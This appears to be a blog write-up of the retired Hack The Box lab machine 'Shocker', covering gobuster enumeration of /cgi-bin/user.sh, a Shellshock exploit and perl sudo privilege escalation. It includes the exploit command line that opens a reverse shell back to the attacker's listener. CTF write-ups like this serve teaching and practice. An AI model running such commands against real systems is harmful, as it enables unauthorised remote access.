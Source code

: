 ```yaml
---
title: Shocker Hackthebox Writeup
date: 2020-12-25 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,cgi-bin,shellshock,gobuster,apache shellshock]     # TAG names should always be lowercase
image: /assets/img/shocker-hackthebox/shocker-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Shocker:~$


Column | Details
------------ | -------------
Name | Shocker
IP | 10.10.10.56
Points | 20
Os | Linux
Difficult | Easy
Creator | [mrb3n](https://www.hackthebox.eu/profile/2984)
Out on | 30th September 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Using `gobuster` on port 80, for `directory search`, we got `/cgi-bin/` as one of the *Forbidden* directories.
* Using `gobuster` on `/cgi-bin/`, we got `user.sh`
* After searching on internet, we got `shellshock` exploit, which gave us `User Shell`.
* Used `pearl` for escalating privileges to become `Root`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/shocker-hackthebox/nmap-port-80-1.png)

___
![](/assets/img/shocker-hackthebox/nmap-port-2222-1.png)

Basically `2 Ports` are open i.e. `80,2222`, Let's access `port 80` it first.

___
![](/assets/img/shocker-hackthebox/port-80-2.png)

Using `gobuster` for directory search, which gave us with `/cgi-bin/` as a directory but it's *Forbidden*.

**Command**: *gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/ -t 100*

___
![](/assets/img/shocker-hackthebox/gobuster-command-3.png)

Using `gobuster` on **http://10.10.10.56/cgi-bin/** to search for further files.

**Command**: *gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 100 -x html,php,sh*

where **-x** : *For extensions like html,php,sh etc.*

___
![](/assets/img/shocker-hackthebox/cgi-bin-gobuster-7.png)

and we got `/user.sh` as a file , accessing **http://10.10.10.56/cgi-bin/user.sh**

___
![](/assets/img/shocker-hackthebox/user-sh-page-8.png)

After that I googled about `Apache 2.4.18 cgi bin`, which showed me something related to **Shellshock Remote code injection**.

___
![](/assets/img/shocker-hackthebox/google-cgi-bin-5.png)

I check `searchsploit` for that and found this:

___
![](/assets/img/shocker-hackthebox/searchsploit-result-6.png)

Now making some changes in the python exploit by adding `/cgi-bin/user.sh` as one the directories/pages.

___
![](/assets/img/shocker-hackthebox/changing-exploit-9.png)

Running the exploit gave us the `User Shell`.

**Exploit Command**: *python exploit.py payload=reverse rhost=10.10.10.56 lhost=10.10.X.X lport 4444*

___
![](/assets/img/shocker-hackthebox/got-shell-10.png) 

For `Privilege Escalation`, I used the command `sudo -l` to check what permissions do we have.

___
![](/assets/img/shocker-hackthebox/sudo-l-privesc-12.png)

We can run `pearl` as administrator. Let's refer to [GTFObins](https://gtfobins.github.io/gtfobins/perl/#sudo) and search for peal.

___
![](/assets/img/shocker-hackthebox/sudo-perl-13.png)

Running the above mentioned command, we got `Root`.

___
![](/assets/img/shocker-hackthebox/got-root-14.png)